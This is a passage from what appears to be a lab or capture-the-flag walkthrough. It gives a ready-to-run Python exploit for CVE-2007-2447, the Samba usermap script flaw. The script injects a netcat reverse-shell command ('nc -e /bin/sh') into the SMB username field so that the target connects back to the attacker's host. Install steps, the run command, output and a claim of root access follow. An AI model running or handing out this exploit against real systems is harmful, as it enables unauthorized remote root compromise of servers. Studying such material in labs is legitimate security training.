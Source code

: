 * Now that we understood how the exploit works let's make a customizable script in python that allows us to send this command through the Samba connection passing the local and remote information as arguments.


```python
from sys import argv
from smb.SMBConnection import SMBConnection


def exploit(rhost, rport, lhost, lport):
    payload = "nc -e /bin/sh " + lhost + " " + lport
    username = "./=`nohup " + payload + "`"
    conn = SMBConnection(username, "", "", "")
    print(f"[+] Start the Netcat listener on port {lport} and press any key.")
    p=input()
    print("[+] Connecting to smb.")
    try:
        conn.connect(rhost, int(rport), timeout=1)
    except:
        print("[+] Payload executed Successfully :)\n[+] Check your Netcat listener.")
    
if len(argv) != 5:
    print(f"Usage:\n\t{argv[0]} <rhost> <rport> <lhost> <lport> ")
    exit()
else:
    print("[+] CVE-2007-2447 - Samba usermap script")
    print("[+] Creating payload.")
    rhost = argv[1]
    rport = argv[2]
    lhost = argv[3]
    lport = argv[4]
    exploit(rhost, rport, lhost, lport)
```

NOTE: Install the `pysmb` module using pip. You may do this like show below.

```bash
sudo apt-get -y install python3-pip
pip3 install pysmb

```

* You could refer to the link below for the usage https://github.com/Alien0ne/CVE-2007-2447

* Run the script as shown below.

```bash
┌──(alien0ne㉿kali)-[~]
└─$python3 exploit.py 10.129.167.68 139 10.10.14.15 1334
[+] CVE-2007-2447 - Samba usermap script
[+] Creating payload.
[+] Start the Netcat listener on port 1334 and press any key.

[+] Connecting to smb.
[+] Payload executed Successfully :)
[+] Check your Netcat listener.
```
*  Now we got a shell in our Netcat session, and we are Root :)
